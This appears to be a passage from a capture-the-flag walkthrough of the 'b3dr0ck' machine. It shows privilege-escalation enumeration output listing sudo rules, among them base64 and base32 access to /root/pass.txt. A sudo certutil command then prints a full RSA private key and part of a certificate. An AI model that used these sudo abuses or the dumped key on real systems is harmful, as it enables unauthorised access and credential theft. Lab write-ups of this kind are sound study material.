 
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                    
Matching Defaults entries for barney on b3dr0ck:                                                                    
    insults, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User barney may run the following commands on b3dr0ck:
    (ALL : ALL) /usr/bin/certutil
Sudoers file: /etc/sudoers.d/barney is readable
barney ALL=(ALL:ALL) /usr/bin/certutil
Sudoers file: /etc/sudoers.d/fred is readable
fred ALL=(ALL:ALL) NOPASSWD: /usr/bin/base32 /root/pass.txt
fred ALL=(ALL:ALL) NOPASSWD: /usr/bin/base64 /root/pass.txt


barney@b3dr0ck:/home$ sudo -l


### Get Fred Certs
barney@b3dr0ck:/tmp$ sudo /usr/bin/certutil -a -fred.csr.pem
Generating credentials for user: a (fredcsrpem)
Generated: clientKey for a: /usr/share/abc/certs/a.clientKey.pem
Generated: certificate for a: /usr/share/abc/certs/a.certificate.pem
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA27fu5AClefsHts5Jqb7TZYWh1wMw02YIjNYO4QKM2kINuXbe
GVqNuj1JrMQvATgwXD/vyKZoXDF6zr+f0XkQ6CdJPmPURMB9Av3AfQLX6o1Q9JQa
qHvYG0oDUIokO+Sbmlcs3pN/a5J08WQWTI1p/nlziHcWTRcSYL6rUkKijI1J0uro
pLPRzvtz/5cySaVpeFsxBadtheeeaqoGYPo21x7UhRv1/x7qPWZv5QR7fQxOyJLl
3YJBSQHlHrCDbxIYy6h2YU+zqBc5l6ZBYhLztPjAqQrG3tHwu2ZfNdoXYUo+oSM4
MaWX3K3dIYcuBo3e1fhWwO7QHYk3Au9zPn5hpwIDAQABAoIBAQCcNd8QFy2O1dyc
KXnRxywAp8tyVIBoK8i0aJPXgbqmigO78jjhibHt0RkKTcilc09eps5Rt43Gzh7j
0vVLNmnAw/2c79jAsKGweLxbpKPhzGrcGFgDpVj1vd8xaaVtN5ExX/00mWUkE9I0
tNXtwzSyiaKMSS5/zIFyatze9SUgCxmZHUL9GO4//QfJPtJKEwmzezjLWFtmw3Kq
xws6jAJDnNFdgbOr50+NnE7GZ0I0iiyI/hMoMztAr2anmVHBn8xNX5UK2LIB8puQ
/lhGi8ArFwbJGSBU+O053QzeGE8lxUDUYDsqKxC+Yk2Deq0yInhVlMdZ1cWYlA1l
7S3SwRAxAoGBAP0TMagEs5MgOrd1IkbTcqF5KZGJPRI36FQSHSNJH8VTUCpIIICo
8+dEaxkcM4JREZJLhuqkhO4BM8UhIrjmTDatPmmVqlXQiMb2VNroG4MjF1ALJp81
+IDHNPkYSt319u3kV9dceQM7LOZA9GuEn2gLo+vmxXVhIW4DdNTaOWyDAoGBAN5C
CwGxEQzHU8Ouj8zgLO/C8xjAnXAy33Lhokrv5zUoKvw+cBhgLyVzFlMh4NOR83S6
FbSTZq+6P0nfjihFtl4sSE1I7YBrXvJt1k+J2EiF4rRLY8dpEKG0pQybho75vuaf
iYEl1vmQSjsjpXKVXG9LvyTaEUVLnvg/sV1wVHUNAoGAA6ctRlGbDfqfHlrQfdk7
hF0tXm5utT6dWelRBltd3AlR1OppnbHSo3n3Wctwauckq8nvTp/FU3Is/yF1UNny
K6/ggMGqTcbO0qBnpSlIjGILShp/Gjk7NxCpERdqrT2JrPFo2zD4hjVqdoBlhs/J
RUU1vof8Pa+DPgVKwG/N+GUCgYAfUMrgOCSg2kzxG11jjoqGVb+O00TblC9rrmMB
j//Ru5Ei7WE57gN2kVqp5/IXnU7iOX3pbYNgayuTqw4KmpfxeOfPC+F64KYGHne9
yTxSK5sfsCek5ybSwfMnbZpt9r5xHDVxnvVFQJFU99bN6EGX5OJPvPIGA3uomsDQ
24zq2QKBgArksoEHX5H5gFJ/UKY2o47LGUYHWZgcsZsS1hN1jTOMKQJsMkUmafD8
p7lfnCd99rrgjnqNCsAgR5u/9g2keXzyI5GuD/1/UXqDMH4q9Zljo4wlimGKg9dY
2vkAFwAtsbK8wx8Q+bv8SWVmZ0n9fajuq4jb1F8sx4+J0mnxE8s/
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
MIICnjCCAYYCAjA5MA0GCSqGSIb3DQEBCwUAMBQxEjAQBgNVBAMMCWxvY2FsaG9z
dDAeFw0yNDA2MTAwODE5MzZaFw0yNDA2MTEwODE5MzZaMBUxEzARBgNVBAMMCmZy
ZWRjc3JwZW0wggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDbt+7kAKV5
+we2zkmpvtNlhaHXAzDTZgiM1g7hAozaQg25dt4ZWo26PUmsxC8BODBcP+/Ipmhc
MXrOv5/ReRDoJ0k+Y9REwH0C/cB9AtfqjVD0lBqoe9gbSgNQiiQ75JuaVyzek39r
knTxZBZMjWn+eXOIdxZNFxJgvqtSQqKMjUnS6uiks9HO+3P/lzJJpWl4WzEFp22F
555qqgZg+jbXHtSFG/X/Huo9Zm/lBHt9DE7IkuXdgkFJAeUesINvEhjLqHZhT7Oo
FzmXpkFiEvO0+MCpCsbe0fC7Zl812hdhSj6hIzgxpZfcrd0hhy4Gjd7V+FbA7tAd
iTcC73M+fmGnAgMBAAEwDQYJKoZIhvcNAQELBQADggEBACGKAI7c+yHEAq/EZ07I
NRkf4F5agDamblS9VJt7WX7YuWJYvoLmGZgyzvI7cSvcAZvYuQwU6CuvsrTmIuxm
y838rSQyNxRZkI1csliUHZ7Pl5A789lRuz3FTLabJhAHauk5bzEwigzNJicrFxtA
SoQbeBw4mbYdyaDtV3yUf7zfJkxiOMYxk/ExKwzON2lS7sZHR40BgqY2C8bZKFaM
eEYs44hpsAytBV/E5lJvzlzQSYhyxEQDeLo1bwKLXnPw0mRxatpPRo8gpdeye+Si
D3HoFlW0RmJSzA+rJ/9Q4py3uWt1dBMIRRD5slE4LZNYHTEtIEq9CzA5X4Pj7pJv